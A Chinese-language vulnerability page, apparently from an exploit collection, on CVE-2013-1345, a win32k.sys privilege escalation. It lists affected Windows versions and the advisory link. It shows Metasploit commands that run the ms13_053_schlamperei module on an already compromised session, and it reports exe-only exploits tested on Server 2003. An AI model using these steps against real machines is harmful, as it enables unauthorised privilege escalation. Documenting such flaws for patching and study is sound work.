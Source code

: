 ### CVE-2013-1345

#### 描述

内核模式驱动程序中的win32k.sys不会 正确处理内存中的对象，这允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | Version | Update | Edition | Tested             |
| ------------------- | ------- | ------ | ------- | ------------------ |
| Windows 7           |         | SP1    | X64     |                    |
| Windows 7           |         | SP1    | X86     | :heavy_check_mark: |
| Windows 8           | -       | -      | X64     |                    |
| Windows 8           | -       | -      | X86     |                    |
| Windows Rt          | -       |        |         |                    |
| Windows Server 2003 |         | SP2    |         |                    |
| Windows Server 2003 |         | SP2    | Itanium |                    |
| Windows Server 2003 |         | SP2    | X64     |                    |
| Windows Server 2008 |         | SP2    | Itanium |                    |
| Windows Server 2008 |         | SP2    | X64     |                    |
| Windows Server 2008 |         | SP2    | X86     | :heavy_check_mark: |
| Windows Server 2008 | R2      | SP1    | Itanium | :heavy_check_mark: |
| Windows Server 2008 | R2      | SP1    | X64     |                    |
| Windows Server 2012 | -       |        |         |                    |
| Windows Vista       |         | SP2    |         |                    |
| Windows Vista       |         | SP2    | X64     |                    |
| Windows Xp          | -       | SP2    | X64     |                    |
| Windows Xp          |         | SP3    |         |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2013-1345
```

#### 利用方式

> X86利用

测试系统windows 7 sp1 x86 ，直接使用msf即可，我们当机器已经上线了

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win7_x86.png?raw=true)

Windows sever 2003 sp2 x86 和Windows sever 2003 R2 sp2 x86都测试成功，但是利用文件没有源码只有exe可执行文件

Windows sever 2003 sp2 x86 动图如下

![17](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86.gif?raw=true)

Windows sever 2003 R2 sp2 x86 动图如下

![18](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86_2.gif?raw=true)

